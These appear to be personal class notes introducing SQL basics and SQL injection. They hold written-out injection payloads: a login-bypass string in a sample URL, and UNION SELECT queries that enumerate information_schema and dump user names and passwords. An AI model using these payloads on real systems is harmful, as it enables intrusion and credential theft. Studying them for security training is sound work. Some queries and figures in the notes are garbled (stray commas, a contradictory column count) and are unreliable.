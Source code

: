 # DAY 3

SQL - Structured Query Language
  - language used to interact with relational database management systems (rdms)
    - relational databases - data organized based off logical relationships and can be accessed or reassembled in different way wihtout the need to reorganize the data
      - databases are broken into **tables**, tables contain **Columns/Fields** and **rows** which contain data
        - each table has a unique primary key 
      - ***by default, `information_schema`, `performance_schema`, and `mysql` are databases in mysql***
      - all sql queries end in semicolons
    - `use [database];`
    - `show tables;`
    - `select * from [table];`
    - `select [column name] from [table];`


### SQL INJECTION
- Require Valid SQL Queries
- Fully patched systems can be vulnerable due to misconfiguration
- Input Field Sanitization
- String vs Integer Values
- Is **information_schema** Database available?
- GET(URL) Request versus POST(INPUT THING) Request HTTP methods

`select id where user='deez' and passwd='jcac'`

something about putting `' or 1='1` in a username and/or input spot

`badurl.com/login.php?user=' or 1='1 & passwd=' or '1`

`login.php?<COPYANDPASTEDRAWREQEUSTDATA>`

once you find an option that is vulnerable: (audi)
  - you have to figure out how many columns are in the table, will never be less than what was originally found, but can be more
  - `Audi' UNION SELECT 1,2,3,4;#` (add more columns to figure it out)
  - in example, 1345 columns are available
  - `Audi' UNION SELECT table_name,2,table_schema,column_name,5, FROM information_schema.columns; #`
    - dumps the whole database in a really weird format
    - `Audi' UNION SELECT table_name,2,table_schema,column_name,5, FROM information_schema.columns WHERE table_schema='session'; #`
    - `Audi' UNION SELECT id,2,name,pass,5 FROM session.user; #
    - @@version



\',1)#









